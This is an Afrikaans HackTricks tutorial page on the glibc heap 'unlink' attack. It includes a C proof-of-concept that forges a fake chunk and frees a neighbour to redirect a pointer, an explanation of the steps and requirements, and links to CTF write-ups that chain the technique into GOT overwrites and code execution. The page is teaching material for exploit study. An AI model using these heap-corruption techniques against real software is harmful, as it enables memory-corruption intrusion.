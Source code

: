 # Unlink Aanval

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Basiese Inligting

Toe hierdie aanval ontdek is, het dit meestal 'n WWW (Write What Where) toegelaat, maar sommige **kontroles is bygevoeg** wat die nuwe weergawe van die aanval interessanter en meer kompleks en **nutteloos** maak.

### Kodevoorbeeld:

<details>

<summary>Kode</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Aanval werk nie as tcaches gebruik word nie (na 2.26)

### Doel

Hierdie aanval maak dit moontlik om **'n aanwyser na 'n blok te verander om 3 adresse voor homself te wys**. As hierdie nuwe ligging (omgewing waar die aanwyser geleë was) interessante dinge bevat, soos ander beheerbare toekenning / stapel..., is dit moontlik om hulle te lees/oor te skryf om 'n groter skade te veroorsaak.

* As hierdie aanwyser in die stapel geleë was, omdat dit nou 3 adresse voor homself wys en die gebruiker dit moontlik kan lees en wysig, sal dit moontlik wees om sensitiewe inligting uit die stapel te lek of selfs die terugkeeradres te wysig (miskien) sonder om die kanarie aan te raak
* In CTF-voorbeelde is hierdie aanwyser geleë in 'n reeks aanwysers na ander toekenning, daarom, deur dit 3 adresse voor te maak en dit te kan lees en skryf, is dit moontlik om die ander aanwysers na ander adresse te laat wys.\
Aangesien die gebruiker moontlik ook die ander toekenning kan lees/skryf, kan hy inligting lek of nuwe adresse in willekeurige ligginge oorskryf (soos in die GOT).

### Vereistes

* Sekere beheer in 'n geheue (bv. stapel) om 'n paar blokke te skep wat waardes aan 'n paar van die eienskappe gee.
* Stapel lek om die aanwysers van die vals blok in te stel.

### Aanval

* Daar is 'n paar blokke (blok1 en blok2)
* Die aanvaller beheer die inhoud van blok1 en die koppe van blok2.
* In blok1 skep die aanvaller die struktuur van 'n vals blok:
* Om beskermings te omseil, maak hy seker dat die veld `grootte` korrek is om die fout te vermy: `korrupte grootte vs. vorige_grootte tydens konsolidasie`
* en velde `fd` en `bk` van die vals blok wys na waar blok1 se aanwyser gestoor word met 'n afstande van -3 en -2 onderskeidelik sodat `vals_blok->fd->bk` en `vals_blok->bk->fd` na 'n posisie in die geheue (stapel) wys waar die werklike blok1-adres geleë is:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Die koppe van blok2 word gewysig om aan te dui dat die vorige blok nie gebruik word nie en dat die grootte die grootte van die vals blok bevat.
* Wanneer die tweede blok vrygelaat word, gebeur hierdie vals blok wat ontkoppel:
* `vals_blok->fd->bk` = `vals_blok->bk`
* `vals_blok->bk->fd` = `vals_blok->fd`
* Voorheen is daar gemaak dat `vals_blok->fd->bk` en `vals_blok->bk->fd` na dieselfde plek wys (die ligging in die stapel waar `blok1` gestoor was, sodat dit 'n geldige gekoppelde lys was). Aangesien **beide na dieselfde ligging wys** sal slegs die laaste een (`vals_blok->bk->fd = vals_blok->fd`) **effek** hê.
* Dit sal **die aanwyser na blok1 in die stapel oorskryf na die adres (of bytes) wat 3 adresse voor in die stapel gestoor is**.
* Daarom, as 'n aanvaller die inhoud van blok1 weer kan beheer, sal hy in staat wees om **binne die stapel te skryf** en moontlik die terugkeeradres oorskryf deur die kanarie te vermy en die waardes en punte van plaaslike veranderlikes te wysig. Selfs deur weer die adres van blok1 wat in die stapel gestoor is na 'n ander ligging te wys waar as die aanvaller weer die inhoud van blok1 kan beheer, sal hy oral kan skryf.
* Let daarop dat dit moontlik was omdat die **adresse in die stapel gestoor is**. Die risiko en uitbuiting kan afhang van **waar die adresse na die vals blok gestoor word**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Verwysings

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Alhoewel dit vreemd sou wees om 'n ontkoppelingsaanval selfs in 'n CTF te vind, hier is 'n paar skrywes waar hierdie aanval gebruik is:
* CTF-voorbeeld: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* In hierdie voorbeeld is daar in plaas van die stapel 'n reeks malloc'ed adresse. Die ontkoppelingsaanval word uitgevoer om 'n blok hier toe te ken, dus om die aanwysers van die reeks malloc'ed adresse te beheer. Dan is daar 'n ander funksionaliteit wat toelaat om die inhoud van blokke in hierdie adresse te wysig, wat toelaat om adresse na die GOT te wys, funksieadresse te wysig om lekke en RCE te kry.
* 'n Ander CTF-voorbeeld: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Net soos in die vorige voorbeeld is daar 'n reeks adresse van toekenning. Dit is moontlik om 'n ontkoppelingsaanval uit te voer om die adres na die eerste toekenning 'n paar posisies voor die begin van die reeks te maak en dan hierdie toekenning in die nuwe posisie te oorskryf. Daarom is dit moontlik om aanwysers van ander toekenning te oorskryf om na die GOT van atoi te wys, dit te druk om 'n libc-lek te kry, en dan atoi GOT met die adres na 'n een gadget te oorskryf.
* CTF-voorbeeld met aangepaste malloc- en vryfunksies wat 'n kwesbaarheid misbruik wat baie soortgelyk is aan die ontkoppelingsaanval: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Daar is 'n oorvloei wat toelaat om die FD- en BK-aanwysers van aangepaste malloc te beheer wat (aangepas) vrygestel sal word. Verder het die heap die uitvoerbit, sodat dit moontlik is om 'n heap-adres te lek en 'n funksie van die GOT na 'n heapblok met 'n skelkode te wys om uit te voer.
